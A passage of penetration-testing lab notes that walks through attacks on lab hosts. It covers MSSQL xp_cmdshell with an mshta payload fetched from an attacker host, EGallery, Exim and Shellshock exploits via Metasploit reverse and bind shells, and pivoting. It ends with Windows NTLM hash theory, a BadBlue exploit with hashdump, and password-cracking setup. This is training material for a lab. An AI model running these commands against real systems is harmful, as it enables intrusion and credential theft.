[*] INFO(MSSQL-SERVER\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install. ←
```

`EXEC xp_cmdshell "whoami"`:
```
nt service\mssql$sqlexpress ←
```

<span style="color: #e57373;">**Attacker machine**</span>.

`msfconsole -q`

`search hta_server`, `use exploit/windows/misc/hta_server`, `set PAYLOAD windows/meterpreter/reverse_tcp`, `show options`, `set LHOST 10.10.42.4`, `set LPORT 4444`, `exploit`:
```
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.42.4:4444 ←
[*] Using URL: http://0.0.0.0:8080/PYwpwCVxG.hta
[*] Local IP: http://10.10.42.4:8080/PYwpwCVxG.hta ←
[*] Server started.
```

<span style="color: #64b5f6;">**Target (`demo.ine.local`) machine**</span>.

`EXEC xp_cmdshell "mshta.exe http://10.10.42.4:8080/PYwpwCVxG.hta"`

<span style="color: #e57373;">**Attacker machine**</span>.

```
[*] 10.4.18.19       hta_server - Delivering Payload
[*] Sending stage (175174 bytes) to 10.4.18.19
[*] Meterpreter session 1 opened (10.10.42.4:4444 -> 10.4.18.19:50114 ) at 2024-08-29 18:42:57 +0530 ←
```

`sessions`, `sessions -i 1`

<span style="color: #64b5f6;">**Target (`demo.ine.local`) machine**</span>.

`getuid`:
```
Server username: NT Service\MSSQL$SQLEXPRESS ←
```

`sysinfo`:
```
Computer        : MSSQL-SERVER
OS              : Windows 2016+ (10.0 Build 14393). ←
Architecture    : x64
System Language : en_US
Domain          : CONTOSO
Logged On Users : 6
Meterpreter     : x86/windows
```

`shell`

`where /r C:\\ "*flag*"`:
```
C:\flag.txt ←
```

`type C:\flag.txt`:
```
c5b7da8ca7d051749cd5d3e1e741ef91 ←
```

### Linux Exploitation: Black-Box Penetration Test (with Nmap, Metasploit) - Lab

#### Lab Environment

You will learn to find and exploit a vulnerable web application in this lab. It will also cover post-exploitation techniques to extract sensitive information and pivot!

In this lab environment, the user will access a Kali GUI instance. A vulnerable application can be accessed using the tools installed on Kali at `demo.ine.local`.

**Objective:** Exploit both the target and find all flags!

The best tools for this lab are:
	- Metasploit Framework
	- Nmap
	- Bash shell.

#### Lab Solution

<span style="color: #e57373;">**Attacker machine**</span>.

`ifconfig`:
```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.1.0.13  netmask 255.255.0.0  broadcast 10.1.255.255
        ether 02:42:0a:01:00:0d  txqueuelen 0  (Ethernet)
        RX packets 552  bytes 70101 (68.4 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 481  bytes 1783362 (1.7 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.188.70.2  netmask 255.255.255.0  broadcast 192.188.70.255 ←
        ether 02:42:c0:bc:46:02  txqueuelen 0  (Ethernet)
        RX packets 16  bytes 1376 (1.3 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 1636  bytes 16331724 (15.5 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1636  bytes 16331724 (15.5 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

`fping -a -g 192.188.70.0/24 2> /dev/null`:
```
192.188.70.1
192.188.70.2
192.188.70.3 ←
```

`cat /etc/hosts`:
```
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
10.1.0.13       INE
127.0.0.1 AttackDefense-Kali
192.188.70.2    INE
192.188.70.2 INE
192.188.70.3 demo.ine.local ←
192.188.70.2     attacker
```

`nmap -Pn -sS -sV -p- -T4 demo.ine.local`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-29 20:59 IST
Nmap scan report for demo.ine.local (192.188.70.3)
Host is up (0.000022s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
25/tcp open  smtp    Exim smtpd 4.89 ←
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu)) ←
MAC Address: 02:42:C0:BC:46:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.52 seconds
```

`curl http://demo.ine.local/`:
```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
        <head>
                                <title>Html</title>
                <link rel="stylesheet" href="http://demo.ine.local//egallery/style.css" />
                <style type="text/css">
                        .box{
                          width: 200px;
                        }
                </style>
        </head>
<body>

<div class="download-set">
        <div class="download-button-wrapper"><a href="http://demo.ine.local//egallery/download.php?zip=1" class="download-button">Download Entire Gallery as a .zip File</a></div> ←
</div>

<div class="masonry" id="container">
        </div>

<div class="credits"><a href="http://ericheikkinen.com/egallery-automatic-php-image-galleries/" target="_blank">EGallery - PHP Image Gallery</a></div> ←

<!-- Jquery Masonry -->
<script src="http://demo.ine.local//egallery/js/jquery-1.4.2.min.js"></script> ←
<script src="http://demo.ine.local//egallery/js/jquery.masonry.min.js"></script>
<script>
  $(function(){

        var $container = $('#container');
  
        $container.imagesLoaded( function(){
          $container.masonry({
                itemSelector : '.box'
          });
        });
  
  });
</script>

</body>
</html>
```

`curl -I http://demo.ine.local/`:
```
HTTP/1.1 200 OK
Date: Thu, 29 Aug 2024 15:37:05 GMT
Server: Apache/2.4.7 (Ubuntu) ←
X-Powered-By: PHP/5.5.9-1ubuntu4.29 ←
Content-Type: text/html
```

`searchsploit egallery`:
```
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                      |  Path
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
DBImageGallery 1.2.2 - 'donsimg_base_path' Remote File Inclusion                                                    | php/webapps/3353.txt
EGallery - Arbitrary '.PHP' File Upload (Metasploit)                                                                | php/webapps/20029.rb ←
Joomla! Component com_facegallery 1.0 - Multiple Vulnerabilities                                                    | php/webapps/34754.py
Keyvan1 ImageGallery - Database Disclosure                                                                          | asp/webapps/25661.txt
MAXdev My eGallery Module 3.04 - For Xoops 'gid' SQL Injection                                                      | php/webapps/31392.txt
MDPro Module My_eGallery - 'pid' SQL Injection                                                                      | php/webapps/8100.pl
myPHPNuke Module My_eGallery 2.5.6 - 'basepath' Remote File Inclusion                                               | php/webapps/3010.txt
My_eGallery Module 3.1.1 - Remote File Inclusion Command Injection                                                  | php/webapps/23403.pl
PHP-Nuke eGallery 3.0 Module - 'pid' SQL Injection                                                                  | php/webapps/31331.txt
PHP-Nuke Module My_eGallery 2.7.9 - SQL Injection                                                                   | php/webapps/5203.txt
SimpleGallery 0.1.3 - 'index.php' Cross-Site Scripting                                                              | php/webapps/30811.txt
XOOPS Module My_eGallery 3.04 - 'gid' SQL Injection                                                                 | php/webapps/5242.txt
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

`msfconsole -q`

`search egallery`, `use exploit/unix/webapp/egallery_upload_exec`, `show options`, `set PAYLOAD php/meterpreter/reverse_tcp`, `set RHOSTS demo.ine.local`, `set TARGETURI /`, `set LHOST 192.188.70.2`, `set LPORT 4444`, `exploit`:
```
[*] Started reverse TCP handler on 192.188.70.2:4444 ←
[*] Sending PHP payload (FwdLFLyWoB.php)
[*] Executing PHP payload (FwdLFLyWoB.php)
[*] Sending stage (39282 bytes) to 192.188.70.3
[*] Meterpreter session 1 opened (192.188.70.2:4444 -> 192.188.70.3:52246 ) at 2024-08-29 21:02:26 +0530 ←
```

`sessions`, `sessions -i 1`

<span style="color: #64b5f6;">**Target (`demo.ine.local`) machine - User `www-data`**</span>.

`getuid`:
```
Server username: www-data ←
```

`sysinfo`:
```
Computer    : demo.ine.local
OS          : Linux demo.ine.local 6.8.0-39-generic #39-Ubuntu SMP PREEMPT_DYNAMIC Fri Jul  5 21:49:14 UTC 2024 x86_64
Meterpreter : php/linux
```

`shell`

`find / -iname "*flag*"`:
```
/usr/lib/perl/5.18.2/bits/waitflags.ph
/usr/include/linux/tty_flags.h
/usr/include/linux/kernel-page-flags.h
/usr/include/x86_64-linux-gnu/asm/processor-flags.h
/usr/include/x86_64-linux-gnu/bits/waitflags.h
/usr/bin/dpkg-buildflags
/usr/share/man/man1/dpkg-buildflags.1.gz
/usr/share/man/de/man1/dpkg-buildflags.1.gz
/usr/share/man/man3/XkbSetDebuggingFlags.3.gz
/usr/share/man/man3/Dpkg::BuildFlags.3.gz
/usr/share/man/man3/fesetexceptflag.3.gz
/usr/share/man/man3/fegetexceptflag.3.gz
/usr/share/man/man3/XtAppGetExitFlag.3.gz
/usr/share/man/man3/XtAppSetExitFlag.3.gz
/usr/share/dpkg/buildflags.mk

[...]
```

`exit`

`background`

<span style="color: #e57373;">**Attacker machine**</span>.

`searchsploit exim`:
```
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                      |  Path
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
Dovecot with Exim - 'sender_address' Remote Command Execution                                                       | linux/remote/25297.txt
Exim - 'GHOST' glibc gethostbyname Buffer Overflow (Metasploit)                                                     | linux/remote/36421.rb
Exim - 'perl_startup' Local Privilege Escalation (Metasploit)                                                       | linux/local/39702.rb
Exim - 'sender_address' Remote Code Execution                                                                       | linux/remote/25970.py
Exim 3.x - Format String                                                                                            | linux/local/20900.txt
Exim 4 (Debian 8 / Ubuntu 16.04) - Spool Privilege Escalation                                                       | linux/local/40054.c
Exim 4.41 - 'dns_build_reverse' Local Buffer Overflow                                                               | linux/local/756.c
Exim 4.41 - 'dns_build_reverse' Local Read Emails                                                                   | linux/local/1009.c
Exim 4.42 - Local Privilege Escalation                                                                              | linux/local/796.sh
Exim 4.43 - 'auth_spa_server()' Remote                                                                              | linux/remote/812.c
Exim 4.63 - Remote Command Execution                                                                                | linux/remote/15725.pl
Exim 4.84-3 - Local Privilege Escalation                                                                            | linux/local/39535.sh
Exim 4.87 - 4.91 - Local Privilege Escalation                                                                       | linux/local/46996.sh
Exim 4.87 / 4.91 - Local Privilege Escalation (Metasploit)                                                          | linux/local/47307.rb ←
Exim 4.87 < 4.91 - (Local / Remote) Command Execution                                                               | linux/remote/46974.txt
Exim 4.89 - 'BDAT' Denial of Service                                                                                | multiple/dos/43184.txt
exim 4.90 - Remote Code Execution                                                                                   | linux/remote/45671.py
Exim < 4.86.2 - Local Privilege Escalation                                                                          | linux/local/39549.txt
Exim < 4.90.1 - 'base64d' Remote Code Execution                                                                     | linux/remote/44571.py
Exim Buffer 1.6.2/1.6.51 - Local Overflow                                                                           | unix/local/20333.c
Exim ESMTP 4.80 - glibc gethostbyname Denial of Service                                                             | linux/dos/35951.py
Exim Internet Mailer 3.35/3.36/4.10 - Format String                                                                 | linux/local/22066.c
Exim Sender 3.35 - Verification Remote Stack Buffer Overrun                                                         | linux/remote/24093.c
Exim4 < 4.69 - string_format Function Heap Buffer Overflow (Metasploit)                                             | linux/remote/16925.rb
PHPMailer < 5.2.20 with Exim MTA - Remote Code Execution                                                            | php/webapps/42221.py
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

`search exim`, `use exploit/linux/local/exim4_deliver_message_priv_esc`, `set PAYLOAD linux/x86/meterpreter/reverse_tcp`, `show options`, `set SESSION 1`, `set LHOST 192.188.70.2`, `set LPORT 5555`, `exploit`:
```
[!] SESSION may not be compatible with this module:
[!]  * incompatible session architecture: php
[!]  * missing Meterpreter features: stdapi_railgun_api
[*] Started reverse TCP handler on 192.188.70.2:5555 ←
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. ←
[*] Payload sent, wait a few seconds...
[*] Sending stage (984904 bytes) to 192.188.70.3
[+] Deleted /tmp/RwLokKlhyK
[*] Meterpreter session 2 opened (192.188.70.2:5555 -> 192.188.70.3:45994 ) at 2024-08-29 21:12:39 +0530 ←
```

<span style="color: #64b5f6;">**Target (`demo.ine.local`) machine - User `root`**</span>.

`getuid`:
```
Server username: root ←
```

`shell`

`find / -iname "*flag*"`:
```
[...]

/sys/devices/virtual/net/eth0/flags
/sys/devices/virtual/net/ip_vti0/flags
/sys/devices/virtual/net/eth1/flags
/sys/devices/virtual/net/lo/flags
/sys/module/scsi_mod/parameters/default_dev_flags
/root/FLAG2 ←
```

`cat /root/FLAG2`:
```
79ff114680e11e44a71d773068485a9e ←
```

`exit`

`ifconfig`:
```
Interface  1
============
Name         : lo
Hardware MAC : 00:00:00:00:00:00
MTU          : 65536
Flags        : UP,LOOPBACK
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff::


Interface  2
============
Name         : ip_vti0
Hardware MAC : 00:00:00:00:00:00
MTU          : 1480
Flags        : NOARP


Interface 16069
============
Name         : eth0
Hardware MAC : 02:42:c0:bc:46:03
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 192.188.70.3
IPv4 Netmask : 255.255.255.0


Interface 16071
============
Name         : eth1
Hardware MAC : 02:42:c0:dc:7b:02
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 192.220.123.2 ←
IPv4 Netmask : 255.255.255.0
```

`run autoroute -s 192.220.123.0/24`:
```
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 192.220.123.0/255.255.255.0...
[+] Added route to 192.220.123.0/255.255.255.0 via 192.188.70.3 ←
[*] Use the -p option to list all active routes
```

`run autoroute -p`:
```
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.220.123.0      255.255.255.0      Session 2 ←
```

`background`

<span style="color: #e57373;">**Attacker machine**</span>.

`search ping_sweep`, `use post/multi/gather/ping_sweep`, `show options`, `set RHOSTS 192.220.123.0/24`, `set SESSION 2`, `run`:
```
[*] Performing ping sweep for IP range 192.220.123.0/24
[+]     192.220.123.1 host found
[+]     192.220.123.3 host found ←
[+]     192.220.123.2 host found
[*] Post module execution completed
```

`search portscan`, `use auxiliary/scanner/portscan/tcp`, `show options`, `set RHOSTS 192.220.123.3`, `set PORTS 1-1000`, `run`:
```
[+] 192.220.123.3:        - 192.220.123.3:80 - TCP OPEN ←
[*] 192.220.123.3:        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

`sessions -i 2`

<span style="color: #64b5f6;">**Target (`demo.ine.local`) machine - User `root`**</span>.

`portfwd add -l 1234 -p 80 -r 192.220.123.3`:
```
[*] Local TCP relay created: :1234 <-> 192.220.123.3:80 ←
```

`portfwd list`:
```
Active Port Forwards
====================

   Index  Local             Remote        Direction
   -----  -----             ------        ---------
   1      192.220.123.3:80  0.0.0.0:1234  Forward ←

1 total active port forwards.
```

`background`

<span style="color: #e57373;">**Attacker machine**</span>.

`netstat -antp | grep -e ":1234"`:
```
tcp        0      0 0.0.0.0:1234            0.0.0.0:*               LISTEN      448/ruby ←
```

`nmap -Pn -sS -sV -p1234 localhost`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-29 21:26 IST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000062s latency).
Other addresses for localhost (not scanned): ::1

PORT     STATE SERVICE VERSION
1234/tcp open  http    Apache httpd 2.2.22 ((Debian)) ←

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.81 seconds
```

`curl http://localhost:1234/`:
```html
<html>
<head>
<title>AttackDefense</title>
</head>
<body>
</br>
<iframe frameborder=0 width=800 height=600 src="/cgi-bin/stats"></iframe> ←
</body>
</html>
```

`curl http://localhost:1234/cgi-bin/stats`:
```html
<pre>
Thu Aug 29 15:58:51 UTC 2024
15:58:51 up 22 days, 5:05, 0 users, load average: 0.27, 0.29, 0.29
</pre>
```

`curl -I http://localhost:1234/`:
```
HTTP/1.1 200 OK
Date: Thu, 29 Aug 2024 15:57:22 GMT
Server: Apache/2.2.22 (Debian) ←
Last-Modified: Thu, 01 Nov 2018 12:52:28 GMT
ETag: "4344707-9a-57999e422db00"
Accept-Ranges: bytes
Content-Length: 154
Vary: Accept-Encoding
Content-Type: text/html
X-Pad: avoid browser bug
```

`search apache_mod_cgi`, `use exploit/multi/http/apache_mod_cgi_bash_env_exec`, `set PAYLOAD linux/x86/meterpreter/bind_tcp`, `show options`, `set RHOSTS 192.220.123.3`, `set RHOST 192.220.123.3`, `set TARGETURI /cgi-bin/stats`, `set LPORT 6666`, `exploit`:
```
[*] Command Stager progress - 100.48% done (1037/1032 bytes)
[*] Started bind TCP handler against 192.220.123.3:6666 ←
[*] Sending stage (984904 bytes) to 192.220.123.3
[*] Meterpreter session 3 opened (192.220.123.2:56918 -> 192.220.123.3:6666 via session 2) at 2024-08-29 21:59:17 +0530 ←
```

`sessions`, `sessions -i 3`

<span style="color: #81c784;">**Target (`demo2.ine.local`) machine - User `www-data`**</span>.

`getuid`:
```
Server username: www-data ←
```

`sysinfo`:
```
Computer     : demo2.ine.local
OS           : Debian 7.11 (Linux 6.8.0-39-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```

`shell`

`find / -iname "*flag*"`:
```
/usr/lib/perl/5.14.2/auto/POSIX/SigAction/flags.al
/usr/lib/perl/5.14.2/bits/waitflags.ph
/proc/sys/kernel/acpi_video_flags
/proc/sys/net/ipv4/fib_notify_on_flag_change
/proc/sys/net/ipv6/fib_notify_on_flag_change
/proc/kpageflags

[...]
```

---

## Post-Exploitation

### Windows Post-Exploitation: Dumping and Cracking NTLM Hashes - Theory

#### Windows Password Hashes

<u>The Windows OS stores hashed user account passwords locally in the SAM (Security Accounts Manager) database</u>.

Hashing is the process of converting a piece of data into another value. A hashing function or algorithm is used to generate the new value. The result of a hashing algorithm is known as a hash or hash value.

Authentication and verification of user credentials is facilitated by the Local Security Authority (LSA).

Windows versions up to Windows Server 2003 utilize two different types of hashes:
- LM
- NTLM.

<u>Windows disables LM hashing and utilizes NTLM hashing from Windows Vista onwards</u>.

#### SAM Database

SAM (Security Account Manager) is a database file that is responsible for managing user accounts and passwords on Windows. <u>All user account passwords stored in the SAM database are hashed</u>.

The SAM database file <u>cannot be copied while the operating system is running</u>.
In modern versions of Windows, <u>the SAM database is encrypted with a syskey</u>.

The Windows NT kernel keeps the SAM database file locked and as a result, <u>attackers typically utilize in-memory techniques and tools to dump SAM hashes from the LSASS process</u>.

**Note:** <u>Elevated/Administrative privileges are required in order to access and interact with the LSASS process</u>.

#### NTLM (NTHash)

NTLM is a collection of authentication protocols that are utilized in Windows to facilitate authentication between computers. The authentication process involves using a valid username and password to authenticate successfully.

From Windows Vista onwards, Windows disables LM hashing and utilizes NTLM hashing.

When a user account is created, it is encrypted using the MD4 hashing algorithm, while the original password is disposed of.

NTLM improves upon LM in the following ways:
- Does not split the hash into two chunks.
- Case sensitive.
- Allows the use of symbols and Unicode characters.


#### Dumping and Cracking NTLM Hashes

We can <u>dump</u> Windows password hashes by leveraging various utilities like:
- Meterpreter `hashdump` command
- Mimikatz.

After we have dumped the hashes, we can <u>crack</u> them through the use of the following utilities:
- John The Ripper
- Hashcat.

### Windows Post-Exploitation: Dumping and Cracking NTLM Hashes (with Nmap, Metasploit, JohntheRipper/Hashcat) - Lab

#### Lab Environment

In this lab environment, you will be provided with GUI access to a Kali machine. The target machine will be accessible at `demo.ine.local`.

**Objective:** To exploit a vulnerable Windows server, extract NTLM hashes, and attempt to crack these hashes.

The best tools for this lab are:
- Nmap
- Metasploit
- JohntheRipper
- Hashcat

#### Lab Solution

<span style="color: #e57373;">**Attacker machine**</span>.

`ifconfig`:
```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.1.0.3  netmask 255.255.0.0  broadcast 10.1.255.255
        ether 02:42:0a:01:00:03  txqueuelen 0  (Ethernet)
        RX packets 821  bytes 90606 (88.4 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 679  bytes 2104626 (2.0 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.42.2  netmask 255.255.255.0  broadcast 10.10.42.255 ←
        ether 02:42:0a:0a:2a:02  txqueuelen 0  (Ethernet)
        RX packets 11  bytes 866 (866.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 3558  bytes 5402060 (5.1 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 3558  bytes 5402060 (5.1 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

`fping -a -g 10.10.42.0/24 2> /dev/null`:
```
10.10.42.1
10.10.42.2
```

`cat /etc/hosts`:
```
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
10.1.0.3        INE
127.0.0.1 AttackDefense-Kali
10.10.42.2      INE
10.4.30.29    demo.ine.local ←
```

`fping demo.ine.local`:
```
demo.ine.local is alive ←
```

`nmap -Pn -sS -sV -p- -T4 demo.ine.local`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-30 14:29 IST
Nmap scan report for demo.ine.local (10.4.30.29)
Host is up (0.0091s latency).
Not shown: 65522 closed tcp ports (reset)
PORT      STATE SERVICE            VERSION
80/tcp    open  http               BadBlue httpd 2.7 ←
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn ←
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds ←
3389/tcp  open  ssl/ms-wbt-server?
5985/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49163/tcp open  msrpc              Microsoft Windows RPC
49180/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows ←

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 86.55 seconds
```

`searchsploit badblue`:
```
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                           |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
BadBlue 2.5 - 'ext.dll' Remote Buffer Overflow (Metasploit)                                                                                              | windows/remote/16761.rb
BadBlue 2.5 - Easy File Sharing Remote Buffer Overflow                                                                                                   | windows/remote/845.c
BadBlue 2.52 Web Server - Multiple Connections Denial of Service Vulnerabilities                                                                         | windows/dos/419.pl
BadBlue 2.55 - Web Server Remote Buffer Overflow                                                                                                         | windows/remote/847.cpp
BadBlue 2.72 - PassThru Remote Buffer Overflow                                                                                                           | windows/remote/4784.pl
BadBlue 2.72b - Multiple Vulnerabilities                                                                                                                 | windows/remote/4715.txt
BadBlue 2.72b - PassThru Buffer Overflow (Metasploit)                                                                                                    | windows/remote/16806.rb ←
Working Resources 1.7.3 BadBlue - Null Byte File Disclosure                                                                                              | windows/remote/21616.txt
Working Resources 1.7.x BadBlue - Administrative Interface Arbitrary File Access                                                                         | windows/remote/21630.html
Working Resources 1.7.x/2.15 BadBlue - 'ext.dll' Command Execution                                                                                       | windows/remote/22511.txt
Working Resources BadBlue 1.2.7 - Denial of Service                                                                                                      | windows/dos/20641.txt
Working Resources BadBlue 1.2.7 - Full Path Disclosure                                                                                                   | windows/remote/20640.txt
Working Resources BadBlue 1.5/1.6 - Directory Traversal                                                                                                  | windows/remote/21303.txt
Working Resources BadBlue 1.7 - 'ext.dll' Cross-Site Scripting                                                                                           | windows/remote/21576.txt
Working Resources BadBlue 1.7.1 - Search Page Cross-Site Scripting                                                                                       | cgi/webapps/22045.txt
Working Resources BadBlue 1.7.3 - 'cleanSearchString()' Cross-Site Scripting                                                                             | windows/remote/21599.txt
Working Resources BadBlue 1.7.3 - GET Denial of Service                                                                                                  | windows/dos/21600.txt
Working Resources BadBlue 1.7.x/2.x - Unauthorized HTS Access                                                                                            | windows/remote/22620.txt
Working Resources BadBlue 1.7.x/2.x - Unauthorized Proxy Relay                                                                                           | windows/remote/24409.txt
Working Resources BadBlue 2.55 - MFCISAPICommand Remote Buffer Overflow (1)                                                                              | windows/remote/25166.c
Working Resources BadBlue 2.55 - MFCISAPICommand Remote Buffer Overflow (2)                                                                              | windows/remote/25167.c
Working Resources BadBlue Server 2.40 - 'PHPtest.php' Full Path Disclosure                                                                               | php/webapps/23753.txt
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

`sudo service postgresql start`:
```
Starting PostgreSQL 16 database server: main. ←
```

`msfconsole -q`

`search badblue`, `use exploit/windows/http/badblue_passthru`, `set PAYLOAD windows/meterpreter/reverse_tcp`, `show options`, `set RHOSTS demo.ine.local`, `set LHOST 10.10.42.2`, `set LPORT 4444`, `exploit`:
```
[*] Started reverse TCP handler on 10.10.42.2:4444 
[*] Trying target BadBlue EE 2.7 Universal...
[*] Sending stage (176198 bytes) to 10.4.30.29
[*] Meterpreter session 1 opened (10.10.42.2:4444 -> 10.4.30.29:49292) at 2024-08-30 14:40:26 +0530 ←
```

`sessions`, `sessions -i 1`

<span style="color: #64b5f6;">**Target (`demo.ine.local`) machine**</span>.

`getuid`:
```
Server username: WIN-OMCNBKR66MN\Administrator ←
```

`sysinfo`:
```
Computer        : WIN-OMCNBKR66MN
OS              : Windows Server 2012 R2 (6.3 Build 9600). ←
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

`getsystem`:
```
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)). ←
```

`getuid`:
```
Server username: NT AUTHORITY\SYSTEM ←
```

`hashdump`:
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c::: ←
bob:1009:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef::: ←
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

`creds`:
```
Credentials
===========

host         origin       service        public         private                                                            realm  private_type  JtR Format  cracked_password
----         ------       -------        ------         -------                                                            -----  ------------  ----------  ----------------
10.4.20.107  10.4.20.107  445/tcp (smb)  Administrator  aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c         NTLM hash     nt,lm ←
10.4.20.107  10.4.20.107  445/tcp (smb)  bob            aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef         NTLM hash     nt,lm ←
```

`background`

<span style="color: #e57373;">**Attacker machine**</span>.

`vim ./hashes.txt`:
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
bob:1009:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef:::
```

`john --help`:
```
John the Ripper 1.9.0-jumbo-1+bleeding-aec1328d6c 2021-11-02 10:45:52 +0100 OMP [linux-gnu 64-bit x86_64 AVX2 AC]
Copyright (c) 1996-2021 by Solar Designer and others
Homepage: https://www.openwall.com/john/

Usage: john [OPTIONS] [PASSWORD-FILES] ←

--help                     Print usage summary
--single[=SECTION[,..]]    "Single crack" mode, using default or named rules
--single=:rule[,..]        Same, using "immediate" rule(s)
--single-seed=WORD[,WORD]  Add static seed word(s) for all salts in single mode
--single-wordlist=FILE     *Short* wordlist with static seed words/morphemes
--single-user-seed=FILE    Wordlist with seeds per username (user:password[s]
                           format)
--single-pair-max=N        Override max. number of word pairs generated (6)
--no-single-pair           Disable single word pair generation
--[no-]single-retest-guess Override config for SingleRetestGuess
--wordlist[=FILE] --stdin  Wordlist mode, read words from FILE or stdin
                  --pipe   like --stdin, but bulk reads, and allows rules
--rules[=SECTION[,..]]     Enable word mangling rules (for wordlist or PRINCE
                           modes), using default or named rules
--rules=:rule[;..]]        Same, using "immediate" rule(s)
--rules-stack=SECTION[,..] Stacked rules, applied after regular rules or to
                           modes that otherwise don't support rules
--rules-stack=:rule[;..]   Same, using "immediate" rule(s)
--rules-skip-nop           Skip any NOP ":" rules (you already ran w/o rules)
